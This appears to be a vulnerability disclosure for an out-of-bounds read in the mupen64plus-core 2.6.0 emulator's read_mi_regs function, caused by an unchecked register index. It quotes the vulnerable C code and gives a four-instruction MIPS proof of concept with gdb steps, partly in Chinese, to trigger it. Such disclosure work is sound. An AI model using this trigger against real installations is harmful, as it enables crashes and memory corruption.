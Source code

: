 ### BUG2: mi_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.c#L81
void read_mi_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct mi_controller* mi = (struct mi_controller*)opaque;
    uint32_t reg = mi_reg(address);

    *value = mi->regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L58
static osal_inline uint32_t mi_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L31
enum mi_registers
{
    MI_INIT_MODE_REG,
    MI_VERSION_REG,
    MI_INTR_REG,
    MI_INTR_MASK_REG,
    MI_REGS_COUNT     = 4
};

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/mi/mi_controller.h#L51
struct mi_controller
{
    uint32_t regs[MI_REGS_COUNT];

    struct r4300_core* r4300;
};
```


The vulnerability arises in the read_mi_regs function when accessing mi->regs[reg]. The reg index is calculated using the mi_reg function, which performs the following operation:

```
return (address & 0xffff) >> 2;
```

This operation ensures that reg is derived from the lower 16 bits of address, and then shifted right by 2 bits. However, the mi->regs array only has 4 elements (indices 0 to 3), as defined by MI_REGS_COUNT.

The issue is that the mi_reg function does not enforce any bounds checking on the calculated reg index. If the address parameter results in a reg value that is greater than or equal to MI_REGS_COUNT, the code will attempt to access an out-of-bounds element in the mi->regs array. This can lead to undefined behavior, including memory corruption, crashes, or security vulnerabilities.


#### Reproduction

- Poc.asm

这里我提供的是objdump反汇编的结果。

```asm
0000000000000000 <_start>:
   0:   3c048430        lui     a0,0x8430
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```

首先编译又调试符号的mupen64plus，使用gdb去调试该程序。其中我们加载了m64p_test_rom.v64 ROM，但是在程序入口写入poc的汇编。

```   

$ gdb -q -nh \
  -ex 'set breakpoint pending on' \
  -ex 'break read_mi_regs' \
  --args mupen64plus --emumode 0 --debug ./m64p_test_rom.v64
(gdb) run
...
PC at 0xA4000040.
(dbg) write 0xA4000040 w 0x3c048430
(dbg) write 0xA4000044 w 0x348403fc
(dbg) write 0xA4000048 w 0x8c850000
(dbg) run
(gdb) layout src
```

![](./asserts/mi.png)